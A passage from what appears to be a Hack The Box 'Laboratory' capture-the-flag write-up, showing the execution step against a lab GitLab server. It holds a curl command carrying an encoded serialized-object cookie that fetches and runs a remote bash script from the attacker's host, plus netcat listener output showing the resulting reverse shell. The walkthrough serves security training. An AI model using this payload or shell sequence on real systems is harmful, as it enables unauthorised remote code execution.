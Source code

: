Step 5 : Execution

Now that we have the cookie value ready we will run the `curl` command to drop us a reverse shell:

```shell
cfx:  ~/Documents/htb/laboratory
→ curl -vvv -k 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=BAhvO
kBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5
jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kibiNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48P
CgoIGBjdXJsIGh0dHA6Ly8xMC4xMC4xNC4yNDo4MDgwL3Jldi5iYXNoIHwgYmFzaGAgKS50b19zKTsgX2VyYm91dAY6BkV
GOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcKVVRGLTgGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lb
m9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7ClQ6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ
6OkRlcHJlY2F0aW9uAAY7ClQ=--c13c402abdc9f0aabfd22f5544ab2d713e509334"
```

Make sure to start the webserver and nc listener before executing the curl command:

![shell](/assets/img/Posts/Laboratory/shell.png)

```shell
cfx:  ~/Documents/htb/laboratory
→ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.216.
Ncat: Connection from 10.10.10.216:57334.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=998(git) gid=998(git) groups=998(git)
$ python3 -c "import pty;pty.spawn('/bin/bash')"
git@git:~/gitlab-rails/working$
```

## Shell as dexter

### Enumeration

